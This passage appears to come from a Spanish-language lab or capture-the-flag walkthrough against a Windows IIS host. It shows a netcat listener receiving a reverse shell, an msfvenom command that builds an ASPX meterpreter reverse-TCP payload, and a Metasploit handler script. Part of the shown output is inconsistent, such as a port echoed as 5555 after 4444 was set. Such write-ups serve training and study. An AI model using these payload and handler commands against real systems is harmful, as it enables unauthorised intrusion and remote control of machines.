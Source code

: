 Y observa la conexión obtenida:
```batch
rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.80] 49185
Microsoft Windows [Versi�n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.

c:\windows\system32\inetsrv>
```
Listo, estamos dentro.

<br>

<h3 id="RevShell2">Obteniendo Sesión de Meterpreter con Reverse Shell de ASPX</h3>

Vamos a crear una **Reverse Shell** con **msfvenom**, especificando que será un payload para obtener una sesión de **meterpreter**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Tu_IP LPORT=4444 -f aspx -o meterpreterShell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2867 bytes
Saved as: meterpreterShell.aspx
```

Ahora, vamos a automatizar la obtención del handler que nos da la sesión del **meterpreter**, metiendo los comandos en un script de **Ruby**:
```bash
nano handler.rc
---------------
USE exploit/multi/handler
set LHOST Tu_IP
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

Ejecutamos el script con **Metasploit**:
```bash
msfconsole -q -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set LHOST Tu_IP
LHOST => Tu_IP
resource (handler.rc)> set LPORT 4444
LPORT => 5555
resource (handler.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (handler.rc)> exploit
[*] Started reverse TCP handler on Tu_IP:4444
```
